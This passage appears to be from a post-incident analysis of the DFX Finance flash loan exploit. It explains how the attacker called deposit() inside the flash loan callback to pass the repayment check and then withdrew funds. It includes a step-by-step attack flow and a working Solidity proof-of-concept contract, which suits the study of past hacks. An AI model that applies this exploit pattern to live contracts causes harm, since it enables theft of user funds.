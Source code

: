   ![image](https://user-images.githubusercontent.com/53768199/215330695-1b1fa612-4f01-4c6a-a5be-7324f464ecb1.png)

  As you can see, the attacker called `deposit` function in the victim contract and it will receive the numeraire assets that the pool supports and mint curves token. As mentioned in the graph above, `USDC` and `XIDR` are sent to the victim via `transferFrom`.
  
  ![image](https://user-images.githubusercontent.com/53768199/215330576-d15642f7-5819-4e83-a8c8-1d3a48ad8c6d.png)
  
  At this point, it is known that the completion of the flash loan is determined by checking whether the corresponding token assets in the contract are greater than or equal to the state before the execution of the flash loan callback. And `depoit` function will make this validation complete.

  ```solidity
  require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');
  require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
  ```

  It should be noticed that the attacker prepared some `USDC` and `XIDR` tokens for the flash loan fee mechanism before the attack. This is why the attacker's deposit is relatively higher than the borrowed amount. So the total amount for `deposit` invocation is the amount borrowed with flash loan plus the fee. The validation in the `flash` function can be passed with this.

  As a result, the attacker invoked `deposit` in the callback function, bypassed the validation in the flash loan and left the record for deposit. After all these operations, attacker withdrew tokens.

  In summary, the whole attack flow is:
  1. Prepare some `USDC` and `XIDR` tokens in advance.
  2. Using `viewDeposit()` to get the number of assets for later `deposit()`.
  3. Flash `USDC` and `XIDR` tokens based on the return value in step 2.
  4. Invoke `deposit()` function in the flash loan callback .
  5. Since we have a deposit record in the previous step, now withdraw tokens.
  


  The full PoC implementation：  
  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```

  More detailed codebase can be found in the DefiHackLabs repo： [DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2022-11/DFX_exp.sol)
